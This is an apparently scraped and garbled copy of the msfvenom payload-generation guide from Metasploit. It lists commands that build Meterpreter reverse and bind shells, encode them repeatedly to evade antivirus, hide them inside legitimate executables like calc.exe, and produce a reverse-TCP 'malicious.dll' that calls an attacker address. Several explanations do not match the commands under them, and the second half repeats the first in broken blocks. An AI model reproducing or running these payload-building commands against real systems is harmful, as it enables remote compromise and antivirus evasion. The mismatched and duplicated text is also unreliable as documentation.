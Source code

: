 To start using msfvenom, first please take a look at the options it supports:
```
./msfvenom -l payloads
```

# How to generate a payload
To see what payloads are available from Framework, you can do:
```
./msfvenom -p windows/meterpreter/bind_tcp -f exe
```

The -p flag also supports "-" as a way to accept a custom payload:
```
./msfvenom --help-formats
```

Syntax example:
```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
```

To see what formats are supported, you can do the following to find out:
```
./msfvenom -l encoders
```

Typically, this is probably how you will use msfvenom:
```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 
```

# How to encode a payload
By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:
```
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
```

To find out what encoders you can use, you can use the -l flag:
```
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe 
```

You can also encode the payload multiple times using the -i flag. Sometimes more iterations may help avoiding antivirus, but know that encoding isn't really meant to be used a real AV evasion solution:
```
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
```

# How to avoid bad characters
The -b flag is meant to be used to avoid certain characters in the payload. When this option is used, msfvenom will automatically find a suitable encoder to encode the payload:
```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
./msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
./msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```

`

# How to generate a dll with msfvenom
This command uses `msfvenom` to create a DLL payload that establishes a reverse TCP connection to the specified attacker's IP and port.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.6 LPORT=4444 -f dll -e x64/shikata_ga_nai -i 5 -o malicious.dll
```

# How to generate a payload

To generate a payload, there are two flags that you must supply (-p and -f):

* **The -p flag: Specifies what payload to generate**

To see what payloads are available from Framework, you can do:

`

`
./msfvenom -l payloads
`

`

* **The -f flag: Specifies the format of the payload**

Syntax example:

`

`
./msfvenom -p windows/meterpreter/bind_tcp -f exe
`

`
./msfvenom --help-formats
`

`
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
`

`
./msfvenom -l encoders
`

`
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 
`

`
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
`

`
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe 
`

`
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
`

`
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
./msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
./msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
`




